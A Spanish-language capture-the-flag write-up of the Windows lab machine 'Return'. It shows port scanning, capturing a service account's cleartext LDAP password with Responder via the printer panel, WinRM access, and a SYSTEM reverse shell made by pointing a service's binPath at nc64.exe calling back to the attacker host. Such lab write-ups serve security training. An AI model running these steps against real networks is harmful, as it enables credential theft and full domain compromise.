


# Resolución maquina Return

**Autor:** PepeMaquina  
**Fecha:** 29 de noviembre de 2025  
**Dificultad:** Easy 
**Sistema Operativo:** Windows  
**Tags:** LDAP, decrypt, Server Operators.

---
## Imagen de la Máquina

*Imagen: return.JPG*

## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.108 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49697 10.10.11.108 -oN targeted
~~~
### Enumeración de Servicios

~~~bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-29 22:37:17Z)
135/tcp   open  msrpc?
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.95%I=7%D=10/29%Time=690292CC%P=x86_64-pc-linux-gnu%r(DNS
SF:-SD-TCP,30,"\0\.\0\0\x80\x82\0\x01\0\0\0\0\0\0\t_services\x07_dns-sd\x0
SF:4_udp\x05local\0\0\x0c\0\x01");
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 18m34s
| smb2-time: 
|   date: 2025-10-29T22:39:31
|_  start_date: N/A
~~~
Se puede comprobar que nos encontramos en un entorno ad, esto se comprueba porque existe el puerto 88 abierto y esto solo se encuenta en el domain controler que es como el que controla todo.
### Enumeración de nombre del dominio
En este apartado, se realizó la enumeración del nombre de dominio y host con la herramienta netexec y credenciales nulas y/o guest.
~~~ bash
sudo netexec smb 10.10.11.108 -u '' -p ''                                      
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\: 
~~~
Con ello ya guardamos la ip y el dominio con su respectivo host
~~~ bash
cat /etc/hosts
127.0.0.1       localhost
<SNIP>
10.10.11.108 return.local printer printer.return.local
~~~
### Enumeracion detallada de los servicios 
En esta ocacion no se presento ninguna credencial valida, por lo que se realizara una enumeracion exhaustiva con credenciales tanto nulas como guest.
Primero realizando una enumeracion con credenciales nulas no da resultado alguno.
~~~bash
sudo netexec smb 10.10.11.108 -u '' -p '' --shares
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\: 
SMB         10.10.11.108    445    PRINTER          [-] Error enumerating shares: STATUS_ACCESS_DENIED
~~~
Luego se enumera con credenciales guest
~~~bash
sudo netexec smb 10.10.11.108 -u 'asd' -p '' --shares
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [-] return.local\asd: STATUS_LOGON_FAILURE
~~~
Al parecer no se puede enumerar gran cosa sin el uso de credenciales.
De igual manera intentando enumerar el servicio RPC, no se obtiene algo importante.
~~~bash
rpcclient -U '' 10.10.11.108 -N
rpcclient $> querydispinfo
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> enumdomusersasd
command not found: enumdomusersasd
rpcclient $> ^C

rpcclient -U 'awd' 10.10.11.108
Password for [WORKGROUP\awd]:
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
~~~

### Enumeración de la Página Web
Recordando los puertos abiertos, se vio un puerto 80 abierto, por lo que se procede a ver que es lo que contiene.

Asi que viendo que tiene, parece ser una especie de control de inicio de sesion enviado al dc, al parecer existe un usuario "svc-printer", pero no se puede ver la contraseña.
En este punto, se piensa, si envia las credenciales para iniciar sesion al dc, facilmente puedo abrir varios servicios en mi maquina atacante, y modificar la dirección para que apunte a mis servicios, todo esto esperando lograr obtener algunas credenciales.
Para ello primero se ejecuta el famoso "responder".
~~~bash
sudo responder -I tun0      
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.5]
    Responder IPv6             [dead:beef:2::1003]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-Z7IUCT5VNCW]
    Responder Domain Name      [5F42.LOCAL]
    Responder DCE-RPC Port     [45687]

[+] Listening for events...
~~~
Y se modifica la ip de la pagina.

Al enviar "update", se recibe un usuario y contraseña por el responder, obteniendo algunas credenciales validas.
~~~bash
[+] Listening for events...                                                                                                                                 
[LDAP] Cleartext Client   : 10.10.11.108
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1ed<SNIP>2!!
[+] Exiting..
~~~
Con esas credenciales, yo coloco a todos los usuarios en un archivo "users" y las contraseñas en un archivo "pass". Asi que probando las credenciales estas son validas.
~~~bash
sudo netexec smb 10.10.11.108 -u users -p pass --continue-on-success
SMB         10.10.11.108    445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)                                                                                                                                                      
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1ed<SNIP>2!! 
SMB         10.10.11.108    445    PRINTER          [-] return.local\printer:1edFg43012!! STATUS_LOGON_FAILURE
~~~
Por casualidad, tambien se probo las credenciales para entrar por winrm.
~~~bash
sudo netexec winrm 10.10.11.108 -u users -p pass --continue-on-success
WINRM       10.10.11.108    5985   PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1ed<SNIP>2!! (Pwn3d!)
~~~
Obteniendo asi un "pwn3d", que significa que se tienen permisos necesarios para ingresar a ese servicio, por lo que se ingresa mediante WinRm.
~~~bash
evil-winrm -i 10.10.11.108 -u svc-printer -p '1ed<SNIP>2!!'                                              
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con las ultimas credenciales ya probadas y verificadas, se prueba intentar obtener acceso mediante winrm, obteniendo asi la user flag.
~~~powershell
*Evil-WinRM* PS C:\Users\svc-printer> tree /f
Folder PATH listing
Volume serial number is 3A0C-428E
C:.
ÃÄÄÄDesktop
³       user.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
ÃÄÄÄLinks
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\svc-printer> cd desktop
*Evil-WinRM* PS C:\Users\svc-printer\desktop> type user.txt
<Encuentre su user flag>
~~~

---
## Escalada de Privilegios

### Revisión de permisos y/o privilegios
Revisando los privilegios del usuario se pueden ver algunos que son interesantes.
~~~powershell
*Evil-WinRM* PS C:\Users\svc-printer\desktop> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
return\svc-printer S-1-5-21-3750359090-2939318659-876128439-1103

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
~~~
A primera vista, con los permisos "SeBackupPrivilege" se piensa en poder hacer un dumpeado de la Sam y System, obteniendo asi el hash NTLM de administrator, pero por mala suerte ya adelanto que esto no funciona.
Tambien se pueden ver mas privilegios para escalar privilegios, como "SeLoadDriverPrivilege" donde se puede subir controladores maliciosos.
Pero al revisar los grupos a los que pertenecemos se puede ver algo mejor.
~~~bash
*Evil-WinRM* PS C:\temp> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/29/2025 3:52:49 PM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
~~~
Se puede ver el grupo de "Server Operators", que es muy interesante porque permite una escalada de privilegios.
### Aprovechando privilegios del grupo "Server Operators"
Normalmente este grupo permite tener la posibilidad de poder inicar y detener servicios, asi que se puede buscar un servicio que ejecute el sistema y modificando ciertas propiedades del servicio se puede enviar una reverse shell como "nt authority\system"
Para ello normalmente existe un servicio comun "AppReadiness" que se ejecuta como system, asi que se probara ese.
~~~powershell
*Evil-WinRM* PS C:\temp> sc.exe qc AppReadiness
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AppReadiness
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\svchost.exe -k AppReadiness -p
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : App Readiness
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
~~~
Revisando el servicio, este se ejecuta como LocalSystem, que es buena señal.
Mi idea es enviar una reverse shell, por lo que primero necesito subir el binario "nc64.exe".
~~~powershell
Evil-WinRM* PS C:\temp> upload nc64.exe
                                        
Info: Uploading /opt/shells/nc64.exe to C:\temp\nc64.exe
                                        
Data: 60360 bytes of 60360 bytes copied
                                        
Info: Upload successful!
~~~
Ahora si se debe modificar el "binPath" del servicio, que es lo que ejecuta al iniciar el servicio.
~~~bash
*Evil-WinRM* PS C:\temp> sc.exe config AppReadiness binPath= "cmd /c C:\temp\nc64.exe 10.10.14.5 4455 -e cmd.exe"
[SC] ChangeServiceConfig SUCCESS
~~~
Entonces, primero se abre una escucha en mi maquina atacante.
~~~bash
udo nc -nlvp 4455                                                                                    
[sudo] password for kali: 
listening on [any] 4455 ...
~~~
Y desde la sesion de winrm, se inicia el servicio.
~~~powershell
*Evil-WinRM* PS C:\temp> sc.exe start AppReadines
......
~~~
Esto deberia enviar la reverse shell, asi que viendo mi maquina atacante se verifica que si.
~~~bash
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.108] 55749
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso al dc como "nt authority\system", se puede tener acceso a cualquier recurso, asi que se lee la root flag y despues en una auditoria real yo haria un dumpeado de la NTDS (Siempre con permiso del gerente).
~~~powershell
C:\Windows\system32>cd /
cd /

C:\>cd users
cd users

C:\Users>cd administrator
cdcd administrator

C:\Users\Administratocd desktop
cd desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3A0C-428E

 Directory of C:\Users\Administrator\Desktop

09/27/2021  04:22 AM    <DIR>          .
09/27/2021  04:22 AM    <DIR>          ..
10/29/2025  03:35 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   8,827,920,384 bytes free

C:\Users\Administrator\Desktop>type root.txt
<Encuentre su propio root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

